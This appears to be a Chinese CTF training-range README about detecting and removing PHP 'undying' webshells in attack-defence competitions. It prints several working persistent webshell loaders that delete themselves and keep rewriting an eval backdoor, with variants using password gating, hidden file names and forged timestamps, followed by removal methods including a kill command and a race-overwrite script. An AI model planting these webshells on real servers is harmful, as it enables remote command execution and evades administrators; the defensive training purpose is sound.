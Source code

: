 ```bash
 ____    ______  ____       ___    ______  __      __  ____      
/\  _`\ /\__  _\/\  _`\   /'___`\ /\  _  \/\ \  __/\ \/\  _`\    
\ \ \/\_\/_/\ \/\ \ \L\_\/\_\ /\ \\ \ \L\ \ \ \/\ \ \ \ \ \/\ \  
 \ \ \/_/_ \ \ \ \ \  _\/\/_/// /__\ \  __ \ \ \ \ \ \ \ \ \ \ \ 
  \ \ \L\ \ \ \ \ \ \ \/    // /_\ \\ \ \/\ \ \ \_/ \_\ \ \ \_\ \
   \ \____/  \ \_\ \ \_\   /\______/ \ \_\ \_\ `\___x___/\ \____/
    \/___/    \/_/  \/_/   \/_____/   \/_/\/_/'\/__//__/  \/___/ 
                                                                                                                                
# @Author: 探姬
# @Date:   2024-08-26 14:34
# @Repo:   github.com/ProbiusOfficial/ctf2awd
# @email:  admin@hello-ctf.com
# @link:   hello-ctf.com

--- HelloCTF - ctf2awd靶场 : 应急响应 - 不死马查杀 --- 
```

## 配置信息

docker - ubuntu:22.04
username: `helloctf`
password: `123456`

开启题目后会得到 `IP:PORT` 信息，这里将不再能使用浏览器直接打开，你需要使用 `ssh` 连接到 GameBox 上:

```bash
ssh username@ip -p port
```

内部端口在无特殊声明的情况下均为 22 端口，由于存在 MySQL 环境，最低内存请给256，建议512。

## 关于本关卡

PHP"不死马"指的是一种即使被删除了文件，进程仍然继续运行的木马程序。

它通过不断在内存中创建新的木马文件，使得管理员很难彻底清除它。虽然名称中有"不死"一词，但这种木马并没有实现真正的无文件攻击或内存中的webshell攻击，因此严格来说，它并不属于"内存马"的范畴。

最常规的不死马：

```php
<?php
set_time_limit(0); # 设置允许脚本运行的时间，单位为秒。如果设置为0（零），没有时间方面的限制。
ignore_user_abort(1); # 函数设置与客户机断开是否会终止脚本的执行，如果设置为true，则忽略与用户的断开。
unlink(__FILE__); # 删除自身
while (1) {
$content = '<?php @eval($_POST["cmd"]); ?>';
file_put_contents("shell.php", $content);
usleep(10000); # usleep函数：延迟执行当前脚本若干微秒,1秒 = 1000000 微秒
}
?>
```

在最常规不死马的基础上进行各类扩展：

如，将 `$content` 内容改为 `<?php if(md5($_POST["passwd"])=="MD5(YOUR_PASS)"){@eval($_REQUEST["cmd"]);} ?>`，可有效防止蹭车，被他人连接木马的情况。
或者，在其中加入文件时间的修改，或者创建文件为 `.xxx.php` 的隐藏文件形式，用于迷惑对方选手。

```php
<?php 
ignore_user_abort(true);
set_time_limit(0);
unlink(__FILE__);
$file = './.index.php';
$code = '<?php if(md5($_POST["passwd"])=="MD5(YOUR_PASS)"){@eval($_REQUEST["cmd"]);} ?>';
while (1){
	file_put_contents($file,$code);
	system('touch -m -d "2017-11-12 10:10:10" .index.php');
	usleep(50000);
}
?>
```

亦或者，写入多个文件，并且赋予合理名字，用于混淆对方选手。

```php
<?php
ignore_user_abort(true);
set_time_limit(0);
unlink(__FILE__);
$file = '.login.php';
$file1 = '/admin/.register.php'; 
$code = '<?php if(md5($_POST["passwd"])=="MD5(YOUR_PASS)"){@eval($_REQUEST["cmd"]);} ?>';

while (1){
    file_put_contents($file,$code);
    system('touch -m -d "2020-12-01 18:10:12" .login.php');
    file_put_contents($file1,$code);
    system('touch -m -d "2020-12-01 18:10:12" /admin/.register.php');
    usleep(5000);
}
?>

```

删除这些脚本文件并不能解决问题，因为PHP在执行时已经将它们读入并解释成opcode运行。

通常情况下，清除不死马的方法有以下几种：

- 重启服务器 / php服务

- 强行kill后台进程 `ps aux|grep www-data|awk '{print 2}'| xargs kill -9`

- 使用竞争覆盖删除

但由于大多数AWD环境使用Docker容器，并且权限限制较多，前两种方法通常不起作用，因此竞争覆盖删除成为最可靠的解决方案。

使用低Sleep方式竞争写入同名文件，覆盖不死马:

```php
<?php
set_time_limit(0); 
ignore_user_abort(1);
unlink(__FILE__); 
while (1) {
$content = 'Noting';
file_put_contents("shell.php", $content);
usleep(1000); 
}
?>
```
使用bash命令一键执行：

```bash
echo "<?php set_time_limit(0); ignore_user_abort(1); unlink(__FILE__); while (1) { file_put_contents('shell.php', 'Noting'); usleep(10); } ?>" > /var/www/html/kill.php && timeout 5 curl http://127.0.0.1/kill.php
```
## 其他

笔者在编写该关卡时，看到了另一种 PHP内存马的实现，感兴趣的师傅可以看看：[【利用 PHP-FPM 做内存马的方法】](https://tttang.com/archive/1720/)
